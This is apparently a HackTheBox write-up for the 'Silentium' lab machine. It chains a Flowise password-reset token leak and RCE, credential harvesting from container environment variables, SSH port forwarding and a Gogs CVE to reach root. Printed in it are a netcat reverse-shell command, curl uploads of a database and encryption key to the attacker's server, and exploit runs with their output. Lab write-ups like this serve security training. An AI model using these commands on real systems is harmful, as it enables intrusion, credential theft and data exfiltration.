



Silentium.... Exploit the **Account Takeover (ATO)** vulnerability and **RCE** for initial foothold. From there,  ssh as ben with credentials found. Gogs is running locally, port forward using ssh and exploit the Gogs symlink vulnerability to gain the root access to the target

# Recon

## Port Scan

Nmap scan with `-sC` for default script scan `-sV` for service version `-oA` flag for output in all formats (.nmap, .gnmap, .xml) and finally `-v` to print the open ports as the scan discovers which exposes ports 22, 80.

<div class="scroll-code" style="--code-height:500px">

```zsh  collapse={10-31}
0xz1nn ✦ Documents/HTB/silentium
❯ nmap -sC -sV -Pn -oA nmap $target  -v
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-21 03:45 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 03:45
Completed Parallel DNS resolution of 1 host. at 03:45, 0.50s elapsed
Initiating SYN Stealth Scan at 03:45
Scanning 10.129.95.152 [1000 ports]
Discovered open port 22/tcp on 10.129.95.152
Discovered open port 80/tcp on 10.129.95.152
Completed SYN Stealth Scan at 03:45, 4.03s elapsed (1000 total ports)
Initiating Service scan at 03:45
Scanning 2 services on 10.129.95.152
Completed Service scan at 03:45, 6.56s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.95.152.
Initiating NSE at 03:45
Completed NSE at 03:45, 6.04s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.90s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Nmap scan report for 10.129.95.152
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://silentium.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 18.45 seconds
           Raw packets sent: 1178 (51.832KB) | Rcvd: 1045 (41.808KB)

```

</div>

## silentium.htb - Port 80

On port 80 there is a website,


with nothing interesting  other than few usernames (find them out).


## Directory Fuzz

I was eager to see the directories server exposed. I could have simply tried with `gobuster` or `ffuf` but `feroxbuster` is more robust , which resulted `found:0`

```zsh
0xz1nn ✦ Documents/HTB/silentium
❯ feroxbuster -u http://$target                                         
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.95.152/
 🚩  In-Scope Url          │ 10.129.95.152
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/feroxbuster/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       12w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
[####################] - 2m     30000/30000   0s      found:0       errors:0      
[####################] - 2m     30000/30000   211/s   http://10.129.95.152/
```

What could be other potential vector to look at, at this point other subdomains? (I already did full port scan, no new ports were discovered!)

**⮇**

## Vhost Discovery

I used `ffuf` to fuzz the `Host` header  (`-H "Host: FUZZ.silentium.htb"`) which successfully discovered hidden Virtual Host `staging`.

```zsh
0xz1nn ✦ Documents/HTB/silentium
❯ ffuf -u http://$target -H "Host: FUZZ.silentium.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac -fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.95.152
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.silentium.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 302
________________________________________________

staging                 [Status: 200, Size: 3142, Words: 789, Lines: 70, Duration: 354ms]
#www                    [Status: 400, Size: 166, Words: 6, Lines: 8, Duration: 220ms]
#mail                   [Status: 400, Size: 166, Words: 6, Lines: 8, Duration: 223ms]
:: Progress: [19966/19966] :: Job [1/1] :: 117 req/sec :: Duration: [0:01:57] :: Errors: 0 ::
```

## staging.silentium.htb - vhost

The discovered vhost has a login page with forgot password.


(Do we have any valid Credentials? Not yet!) But the `Forgot password` is worth checking the functionality. I entered random mail,


I could try the names which were on the main webpage. I tried the user `ben` with the obvious format `ben@silentium.htb` and sent the reset request. The response confirmed that the mail id is valid.


## Token leak

Inspecting the request using the Burp Proxy, the server leaks the `temp token` that I can submit by clicking `Change your password here` link which potentially leads to Account Takeover.


I can also make the request with `curl` to get the `temp token` directly.

```zsh wrap=false
0xz1nn ✦ Documents/HTB/silentium
❯ curl -i -X POST 'http://staging.silentium.htb/api/v1/account/forgot-password' \                                                                                                              
  -H 'Content-Type: application/json' \
  -d '{"user":{"email":"ben@silentium.htb"}}'
HTTP/1.1 201 Created
Server: nginx/1.24.0 (Ubuntu)
Date: Fri, 21 Aug 2026 08:25:44 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 579
Connection: keep-alive
Vary: Origin
Access-Control-Allow-Credentials: true
ETag: W/"243-6c0aD4AQJA79PwonBplGC8CZ48Q"

{"user":{"id":"e26c9d6c-678c-4c10-9e36-01813e8fea73","name":"admin","email":"ben@silentium.htb","credential":"$2a$05$6o1ngPjXiRj.EbTK33PhyuzNBn2CLo8.b0lyys3Uht9Bfuos2pWhG","tempToken":"CN4S5IMReOtgW1I1kQqVL5rF5fqUvQAKkb9LALlvsX29BUJFvUcywHUgrHJNOp7b","tokenExpiry":"2026-08-21T08:40:44.282Z","status":"active","createdDate":"2026-01-29T20:14:57.000Z","updatedDate":"2026-08-21T08:25:44.000Z","createdBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73","updatedBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73"},"organization":{},"organizationUser":{},"workspace":{},"workspaceUser":{},"role":{}}  
```

## Account Takeover

Submitted the `temp token` with new password `Userpass1!`


Logged on to the site, which is hosting **Flowise** version  `3.0.5` which has **Authentication Bypass / Account Takeover** (CVE-2025-58434)  which we have already exploited  and also a **Remote Code Execution** (CVE-2025-59528). I found this [cool exploit](https://github.com/kartik2005221/CVE-2025-58434-AND-59528-POC)to chain both the vulnerabilities (However, I used only for remote code execution).

# Shell as Root in a container

## CVE-2025-59528

Cloned the repository of the exploit then, used UV to gracefully add the requirements and run.

```zsh
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC      
❯ uv init                                                                   
Initialized project `cve-2025-58434-and-59528-poc`  

0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC
❯ uv add -r requirements.txt 

Using CPython 3.13.12 interpreter at: /usr/bin/python3.13                                     
Creating virtual environment at: .venv
Resolved 6 packages in 511ms
      Built cve-2025-58434-and-59528-poc @ file:///home/kali/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC                                                                           

Prepared 6 packages in 348ms
Installed 6 packages in 4ms
 + certifi==2026.7.22
 + charset-normalizer==3.5.1
 + cve-2025-58434-and-59528-poc==0.1.0 (from file:///home/kali/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC)                                                                        
 + idna==3.19
 + requests==2.34.2
 + urllib3==2.7.0             
```

Ran the script with  `rce` module (You could also use the `chain` module to fully exploit from the account takeover to rce with sinlge command).

```bash wrap=false
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC
❯ uv run main.py --module rce -u http://staging.silentium.htb -e ben@silentium.htb -P 'Userpass1!'  --lhost 10.10.14.201 --lport 443


  ███████╗██╗      ██████╗ ██╗    ██╗██╗███████╗███████╗
  ██╔════╝██║     ██╔═══██╗██║    ██║██║██╔════╝██╔════╝
  █████╗  ██║     ██║   ██║██║ █╗ ██║██║███████╗█████╗
  ██╔══╝  ██║     ██║   ██║██║███╗██║██║╚════██║██╔══╝
  ██║     ███████╗╚██████╔╝╚███╔███╔╝██║███████║███████╗
  ╚═╝     ╚══════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝╚══════╝╚══════╝

  ════════════════════════════════════════════════════════════════════
  CVE-2025-58434 │ Account Takeover via Token Disclosure │ CVSS 9.8 Critical
  CVE-2025-59528 │ Authenticated RCE via CustomMCP Node  │ CVSS Critical    
  ════════════════════════════════════════════════════════════════════
    ⚠  FOR EDUCATIONAL / AUTHORIZED SECURITY TESTING ONLY  ⚠
  ════════════════════════════════════════════════════════════════════


  [Step 1] [CVE-2025-59528] Executing RCE via CustomMCP ...
  [*] No cookies provided — attempting login first ...
  [*] Endpoint : http://staging.silentium.htb/api/v1/auth/login
  [*] Email    : ben@silentium.htb
  [*] HTTP 200

  ────────────────────────────────────────────────────────────────────
    EXTRACTED SESSION COOKIES
  ────────────────────────────────────────────────────────────────────
  token          : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImUyNmM5ZDZjLTY3OGMtNGMxMC0...
  refreshToken   : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImUyNmM5ZDZjLTY3OGMtNGMxMC0...
  connect_sid    : s%3AIBZYZJPZbYRFCjBxxp8rnqh5Rljwy-Ds.TfNLEITNuaR8EKXOM%2FeMEITI0NdVI5H88...
  ────────────────────────────────────────────────────────────────────
  [*] Endpoint : http://staging.silentium.htb/api/v1/node-load-method/customMCP
  [*] Command  : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 443 >/tmp/f
  [*] Payload  : ({x:(function(){const cp=process.mainModule.require("child_process");const b64="cm0gL3Rt...

  ────────────────────────────────────────────────────────────────────
    RCE RESULT
  ────────────────────────────────────────────────────────────────────
  Mode    : Reverse Shell
  Command : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 443 >/tmp/f
  LHOST   : 10.10.14.201
  LPORT   : 443

  [+] Reverse shell payload fired!
  [!] Waiting for connection on 10.10.14.201:443 ...
  [!] Make sure your listener is running:  nc -lvnp 443
  ────────────────────────────────────────────────────────────────────                            
```

## Found hash for Ben (But failed!)

### Enumeration

```zsh

/home # cd /root
~ # ls
~ # ls -la
total 20
drwx------    1 root     root          4096 Apr  8 09:41 .
drwxr-xr-x    1 root     root          4096 Apr  8 15:14 ..
-rw-------    1 root     root           259 Aug 21 09:19 .ash_history
drwxr-xr-x    3 root     root          4096 Aug 21 09:21 .flowise
~ # cd .flowise
~/.flowise # ls
database.sqlite
encryption.key
uploads
```

I could find these files in the root directory, which I downloaded to my machine then I enumerated the  `database.sqlite` . There I found a  `bcrypt` hash  of the admin **Ben**
but the hashcat couldn't help cracking it.

### Uploading files

hosted an upload server

```zsh
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC
❯ uvx uploadserver 80  
File upload available at /upload
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.152 - - [21/Aug/2026 05:36:17] [Uploaded] "database.sqlite" --> /home/kali/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC/database.sqlite
10.129.95.152 - - [21/Aug/2026 05:36:17] "POST /upload HTTP/1.1" 204 -
10.129.95.152 - - [21/Aug/2026 05:36:46] [Uploaded] "encryption.key" --> /home/kali/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC/encryption.key
10.129.95.152 - - [21/Aug/2026 05:36:46] "POST /upload HTTP/1.1" 204 -
```

and uploaded files!

```zsh
~/.flowise # curl -X POST -F 'files=@database.sqlite' http://10.10.14.201/upload
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  376k    0     0  100  376k      0   218k  0:00:01  0:00:01 --:--:--  218k
~/.flowise # curl -X POST -F 'files=@encryption.key' http://10.10.14.201/upload
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   251    0     0  100   251      0    434 --:--:-- --:--:-- --:--:--   435
~/.flowise # 
```

### Enumerating `database.sqlite`

```zsh
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC            
❯ sqlite3 database.sqlite                                                           
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints. 

<snip>

sqlite> SELECT * FROM user;
e26c9d6c-678c-4c10-9e36-01813e8fea73|admin|ben@silentium.htb|$2a$05$wB8f72fwPHx2bDr3PJSx2ezBR7tPUpYtjGqVI8O3OrLRL9QtDc66i||2026-08-21 08:42:52.139|active|2026-01-29 20:14:57|2026-08-21 08:31:30|e26c9d6c-678c-4c10-9e36-01813e8fea73|e26c9d6c-678c-4c10-9e36-01813e8fea73
```

### Checking Environment Variables

When a process is running inside a container, the developer may set the interesting environment variables to allow the application to connect with other applications as admin/root.

```zsh
/ # printenv
FLOWISE_PASSWORD=F1l3_d0ck3r
ALLOW_UNAUTHORIZED_CERTS=true
NODE_VERSION=20.19.4
HOSTNAME=c78c3cceb7ba
YARN_VERSION=1.22.22
SMTP_PORT=1025
SHLVL=3
PORT=3000
HOME=/root
SENDER_EMAIL=ben@silentium.htb
PUPPETEER_EXECUTABLE_PATH=/usr/bin/chromium-browser
JWT_ISSUER=ISSUER
JWT_AUTH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
LLM_PROVIDER=nvidia-nim
SMTP_USERNAME=test
SMTP_SECURE=false
JWT_REFRESH_TOKEN_EXPIRY_IN_MINUTES=43200
FLOWISE_USERNAME=ben
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DATABASE_PATH=/root/.flowise
JWT_TOKEN_EXPIRY_IN_MINUTES=360
JWT_AUDIENCE=AUDIENCE
SECRETKEY_PATH=/root/.flowise
PWD=/
SMTP_PASSWORD=r04D!!_R4ge
NVIDIA_NIM_LLM_MODE=managed
SMTP_HOST=mailhog
JWT_REFRESH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
SMTP_USER=test
/ # 
```

looking into the result I have

```zsh
SENDER_EMAIL=ben@silentium.htb
SMTP_PASSWORD=r04D!!_R4ge
```

# Shell as Ben

## SSH as user ben

Having legit creds from the environment variables  tried to establish an SSH connection as ben.

```zsh
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC           
❯ ssh ben@silentium.htb                                                                                 
The authenticity of host 'silentium.htb (10.129.95.152)' can't be established.                                      
ED25519 key fingerprint is: SHA256:OZNUeTZ9jastNKKQ1tFXatbeOZzSFg5Dt7nhwhjorR0                                      
This key is not known by any other names.                                                                                            
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                              
Warning: Permanently added 'silentium.htb' (ED25519) to the list of known hosts.                                                      
ben@silentium.htb's password:                                                                                       
<<<snip>>>
The list of available updates is more than a week old.
To check for new updates run: sudo apt update                      
Last login: Wed Apr  8 19:12:55 2026 from 10.10.14.5
ben@silentium:~$ ls 
user.txt
ben@silentium:~$ cat user.txt
a596****a9ce****5869****606d****
ben@silentium:~$ 
```

## Gogs - port 3001 (locally)

While enumerating the target `/opt` I found **Gogs** Which is  a self hosted Git service, which means the Gogs is most likely running locally on the machine.

```zsh
ben@silentium:/opt/gogs/gogs$ ls -la
total 79368
drwxr-xr-x 6 root root     4096 Apr  8 09:41 .
drwxr-xr-x 6 root root     4096 Apr  8 09:41 ..
drwxr-xr-x 3 root root     4096 Apr  8 09:41 custom
drwxr-xr-x 3 root root     4096 Apr  8 09:41 data
-rwxr-xr-x 1 root root 81220896 Jun  9  2025 gogs
-rwxr-xr-x 1 root root     1054 Jun  9  2025 LICENSE
drwxr-xr-x 2 root root     4096 Apr  8 09:41 log
-rwxr-xr-x 1 root root     6626 Jun  9  2025 README.md
-rwxr-xr-x 1 root root     5385 Jun  9  2025 README_ZH.md
drwxr-xr-x 7 root root     4096 Apr  8 09:41 scripts
```

I checked for active connections on the machine,



where port 1025 and 8025 are related to mail services.

### ssh port forward

I port fowarded through ssh (to attacker) to access the port 3001 which is running locally on the target machine, so that I can access the port 3001 from my machine directly.

``` zsh
0xz1nn ✦ ~/Documents/HTB/silentium                                   
❯ ssh -L 3001:127.0.0.1:3001 ben@silentium
ben@silentium's password:    
```

 I accessed at `127.0.0.1:3001` on my machine, which opens the  Gogs. Found Registration for the new user,  Registered a new user and enumerated the web pages.



# Shell as Root

## CVE-2025-8110

Then I searched for the public exploits for the Gogs which led me to `CVE-2025-8110` which can give `RCE` on the target. And also searching for exploits I found this [repo](https://github.com/hassan-hamadi/CVE-2025-8110-Silentium-HTB) which could fully automate the exploit. I cloned the repo and added the requirements.txt with `uv`

```zsh
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-8110-Silentium-HTB      
❯ uv init
Initialized project `cve-2025-8110-silentium-htb`

0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-8110-Silentium-HTB                                          
❯ uv add -r requirements.txt                        
Using CPython 3.13.12 interpreter at: /usr/bin/python3.13                                               
Creating virtual environment at: .venv              
Resolved 13 packages in 415ms                       
      Built cve-2025-8110-silentium-htb @ file:///home/kali/Documents/HTB/silentium/CVE-2025-           
Prepared 8 packages in 708ms                        
Installed 13 packages in 22ms                       
 + beautifulsoup4==4.15.0                           
 + certifi==2026.7.22                               
 + charset-normalizer==3.5.1                        
 + cve-2025-8110-silentium-htb==0.1.0 (from file:///home/kali/Documents/HTB/silentium/CVE-2025-8110-Silentium-HTB)
 + idna==3.19                                       
 + markdown-it-py==4.2.0                            
 + mdurl==0.1.2                                     
 + pygments==2.21.0                                 
 + requests==2.34.2                                 
 + rich==15.0.0                                     
 + soupsieve==2.9.2                                 
 + typing-extensions==4.16.0                        
 + urllib3==2.7.0  
```

## Exploit

```
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-8110-Silentium-HTB
❯ uv run CVE-2025-8110.py -u http://127.0.0.1:3001 -lh 10.10.14.201 -lp 443 -un 0xz1nn -pw 'Userpass1!'
[+] Authenticated successfully
Token generation status: 200
[+] Application token: 552fd2bf5ab9faf7ac3509f038792d86c2ffd4fa
<<<snip>>>
[+] Exploit sent, check your listener!
[-] Error: HTTPConnectionPool(host='127.0.0.1', port=3001): Read timed out. (read timeout=5)
```

my listener caught the connection.

```zsh
0xz1nn ✦ ~/Documents/HTB/silentium
❯ rlwrap nc -lnvp 443         
listening on [any] 443 ...
connect to [10.10.14.201] from (UNKNOWN) [10.129.95.152] 53682
bash: cannot set terminal process group (1481): Inappropriate ioctl for device
bash: no job control in this shell
root@silentium:/opt/gogs/gogs/data/tmp/local-repo/1# whoami
whoami
root
root@silentium:/opt/gogs/gogs/data/tmp/local-repo/1# cd /root
cd /root
root@silentium:~# ls
ls
gogs-repositories
root.txt
root@silentium:~# cat root.txt
cat root.txt
0e94****4924****305d****63d0****
root@silentium:~# 
```

## Beyond Root

The vulnerabillity gave `RCE` as the root because the Gogs is running as root on the target system.

```zsh wrap=false
ben@silentium:/opt/gogs/gogs$ ps aux | grep root

root        1481  0.1  3.3 2716984 133560 ?      Ssl  07:23   0:55 /opt/gogs/gogs/gogs web
```

```
https://labs.hackthebox.com/achievement/machine/2244380/867
```


